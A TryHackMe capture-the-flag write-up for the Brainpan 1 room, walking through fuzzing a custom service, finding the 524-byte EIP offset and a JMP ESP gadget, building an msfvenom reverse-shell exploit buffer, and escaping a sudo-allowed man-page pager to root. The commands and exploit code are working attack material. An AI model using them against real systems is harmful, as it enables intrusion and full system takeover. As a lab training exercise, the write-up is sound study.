








# TryHackMe: Brainpan 1 — Writeup

**Category:** Binary Exploitation / Stack-Based Buffer Overflow
**Difficulty:** Medium
**Skills Demonstrated:** Fuzzing, Debugger-Assisted Offset Calculation, Bad Character Analysis, Return Address Overwrite (JMP ESP), Custom Shellcode Generation, sudo Misconfiguration Abuse

---

## Objective

Move beyond web/service misconfigurations and into raw binary exploitation: fuzz a custom Windows network service to trigger a crash, calculate the exact stack overflow offset, identify a usable code execution gadget, and build a working exploit from scratch to gain a shell — then escalate to root through a `sudo` misconfiguration.

---

## 1. Reconnaissance

```bash
nmap -sC -sV -p- 10.114.168.37
```



**Two ports open:**

| Port | Service |
|------|---------|
| 9999/tcp | Custom service — banner: *"WELCOME TO BRAINPAN"* |
| 10000/tcp | SimpleHTTPServer 0.6 (Python 2.7.3) |

The custom banner on port 9999 immediately stood out as a hand-built application — the most likely candidate for a memory corruption vulnerability rather than a known CVE.

---

## 2. Web Enumeration

```bash
gobuster dir -u http://10.114.168.37:10000 -w /usr/share/wordlists/dirb/common.txt
curl -s http://10.114.168.37:10000/bin/
wget http://10.114.168.37:10000/bin/brainpan.exe
```



Gobuster revealed a `/bin/` directory with **directory listing enabled**, exposing `brainpan.exe` directly. Confirmed the file type:

```
brainpan.exe: PE32 executable (console) Intel 80386, for MS Windows
```

A 32-bit Windows binary — obtainable and analyzable locally, which is exactly what made this box approachable for reverse engineering without needing live access to the target for every test.

---

## 3. Running the Binary & Fuzzing

Ran `brainpan.exe` under Wine, confirmed it binds to port 9999 and echoes back data sent to it. Attached **OllyDbg** to the running process, then wrote a Python fuzzing script sending an increasing buffer of `A`s in 100-byte increments.



Between **600–700 bytes**, the application crashed — Wine reported an *"unhandled page fault on read access"* and threw a Program Error dialog, confirming a classic stack-based buffer overflow.

---

## 4. Finding the Exact Offset

Generated a unique, non-repeating pattern (De Bruijn-style, built from uppercase + lowercase + digits) and sent it as the buffer. Read the 4 bytes that landed in the crashed process's EIP register from OllyDbg, then located that exact value's position within the original pattern programmatically:

```bash
python3 -c 'import string, struct; val=struct.pack("<I", 0x35724134).decode("latin-1"); ...; print(f"Exact match at offset {pat.find(val)}")'
```



**Result: exact offset = 524 bytes.**

Rebuilt the buffer as `524 × 'A' + 4 × 'B' + padding of 'C'` and resent it — OllyDbg confirmed **EIP cleanly overwritten with `42424242`** and **ESP pointing directly into the `C` padding**, proving full, precise control over the instruction pointer.

---

## 5. Bad Characters & Finding a JMP ESP Gadget

Sent the full byte range (`\x01`–`\xff`) through the overflow and compared it byte-for-byte against the stack dump in OllyDbg — only **`\x00` (null byte)** came back corrupted, making it the sole bad character to avoid in the final shellcode.

With no ASLR or DEP protecting this legacy binary, searched the module's own memory for a **`JMP ESP`** instruction to use as a reliable return address:



```
JMP ESP → 0x311712F3
```

Since ESP was already pointing directly at attacker-controlled data at the moment of the crash, redirecting EIP here means execution jumps straight into the shellcode that follows.

---

## 6. Generating Shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -b "\x00" -f python
```



Generated a Linux x86 reverse shell payload, explicitly excluding the null byte identified as the only bad character, and encoded with `shikata_ga_nai` to avoid any incidental corruption in transit.

---

## 7. Final Exploit & Getting a Shell

Assembled the complete exploit buffer:

```python
buffer = b"A"*524 + b"\xF3\x12\x17\x31" + b"\x90"*21 + shellcode
```

- `524` bytes of padding to reach the return address
- The `JMP ESP` address in little-endian byte order
- A short NOP sled to absorb any minor landing imprecision
- The generated shellcode

```bash
nc -lvnp 4444
python buffer-skel.py
```



Sent the payload and caught a reverse shell as user **`puck`** — confirming the entire exploit chain, from fuzzing to shellcode execution, worked end-to-end.

---

## 8. Privilege Escalation

Stabilized the shell into a full TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
```

Checked sudo permissions:

```
sudo -l
```

```
User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Investigated `anansi_util`, which exposed `network`, `proclist`, and `manual [command]` actions. The `manual` action opens a man page through a pager — a well-known **shell-escape privilege escalation vector**, since interactive pagers like `less`/`more` allow spawning a subshell:

```bash
sudo /home/anansi/bin/anansi_util manual nc
```

Inside the `nc` man page pager, escaped to a shell with:

```
!/bin/sh
```

Landed as **root**, running with the privileges of the `sudo` invocation.

---

## 9. Root Flag

```bash
cd /root
ls -la
cat b.txt
```



✅ **Root flag captured** — an ASCII art banner pointing to the box author's site (`www.techorganic.com`).

---

## Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| Custom service with no input length validation on its network buffer | Enabled a classic stack-based buffer overflow, corrupting the saved return address |
| No ASLR / DEP protecting the binary | Allowed a reliable, hardcoded `JMP ESP` gadget address to be reused as a stable return target |
| `sudo` rule granting NOPASSWD access to a custom utility with a pager-based subcommand | Enabled a straightforward shell-escape to root, unrelated to the actual binary exploit |

---

## Key Takeaways

- **This was a fundamentally different challenge from every previous box in the series** — no web app, no misconfigured share, no framework module. Just a raw network service and a debugger. Success depended on understanding memory layout, registers, and control flow directly rather than chaining service misconfigurations.
- **Fuzzing before precision work saves time** — a coarse 100-byte-increment fuzz narrowed the crash window to under 100 bytes before any exact-offset calculation was needed, rather than guessing blindly.
- **Bad character analysis is a step that's easy to skip and expensive to skip wrong** — a single unfiltered null byte would have silently truncated the shellcode and caused a payload that "should" work to fail with no clear error.
- **A `JMP ESP` gadget is only a reliable technique against binaries without modern memory protections** — this is very much a legacy-software exploitation pattern; understanding *why* it worked here (no ASLR/DEP) is as important as the mechanical steps.
- **Privilege escalation doesn't have to be as hard as the initial exploit** — despite a genuinely advanced binary exploitation chain to get the initial foothold, root came from a simple, well-documented `sudo`/pager shell-escape pattern that shows up across many completely unrelated boxes.
- Reinforced why this room sits before the AD-focused half of the roadmap: **exploit development fundamentals (fuzzing, offsets, bad chars, shellcode) are a distinct, foundational skill set** worth building deliberately before specializing further into Active Directory attack paths.

---

*Room: [TryHackMe — Brainpan: 1](https://tryhackme.com/room/brainpanct)*
